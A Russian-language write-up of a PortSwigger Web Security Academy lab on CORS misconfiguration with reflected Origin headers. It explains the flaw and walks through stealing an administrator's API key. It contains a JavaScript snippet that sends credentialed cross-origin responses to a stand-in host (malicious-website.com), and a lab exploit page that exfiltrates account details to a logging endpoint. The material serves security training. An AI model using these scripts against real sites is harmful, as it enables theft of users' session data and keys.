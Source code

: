 # CORS vulnerability with basic origin reflection

## Theory

<h3>Генерируемый сервером заголовок ACAO из указанного клиентом заголовка Origin</h3>

Некоторым приложениям необходимо предоставлять доступ к ряду других доменов. Ведение списка разрешенных доменов требует постоянных усилий, и любые ошибки могут нарушить функциональность. Таким образом, некоторые приложения выбирают простой путь, эффективно разрешая доступ из любого другого домена.

Один из способов сделать это — прочитать заголовок Origin из запросов и включить заголовок ответа, указывающий, что запрашивающий источник разрешен. Например, рассмотрим приложение, которое получает следующий запрос:

```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

Затем следует ответ:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Эти заголовки указывают, что доступ разрешен из запрашивающего домена (malicious-website.com) и что запросы между источниками могут включать файлы cookie (Access-Control-Allow-Credentials: true) и поэтому будут обрабатываться в сеансе.

Поскольку приложение отображает произвольные источники в заголовке Access-Control-Allow-Origin, это означает, что абсолютно любой домен может получить доступ к ресурсам из уязвимого домена. Если ответ содержит какую-либо конфиденциальную информацию, такую ​​как ключ API или токен CSRF, вы можете получить ее, разместив на своем веб-сайте следующий скрипт:

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```

## Writeup

* Имеющиеся данные: 
    * Данные нашего аккаунта: wiener:peter

Главная страница:

![](./assets/1.png)

Логинимся под имеющимися данными, сохраняя запросы в HTTP History.

![](./assets/2.png)

После перехвата запроса и ответа, в ответе мы можем видеть заголовок, используемый в CORS, а именно **Access-Control-Allow-Credentials** и пользовательские данные.

![](./assets/3.png)

Отправляем данный запрос в Repeater. Допишем в запрос заголовок Origin, который запросит доступ к требуемым ресурсам и отправим его. В ответе мы можем заметить новый заголовок **Access-Control-Allow-Origin**, который подтвержает доступ к ресурсам.

![](./assets/4.png)

Теперь мы попробуем украсть пользовательские данные администратора. Для этого перейдет к exploit server.

![](./assets/5.png)

Создадим вредоносную html страницу. Наш коод будет выглядеть следующим образом:

![](./assets/6.png)

```
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://0a760062034711f5c17a358000ef0020.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```

Сохраняем изменения и отправляем данный код жертве. В логах нашего сайта мы можем увидеть следующие строки:

![](./assets/7.png)

Берем api ключ администратора и подтверждает ответ.

![](./assets/8.png)

Получаем ответ от сервера.

![](./assets/9.png)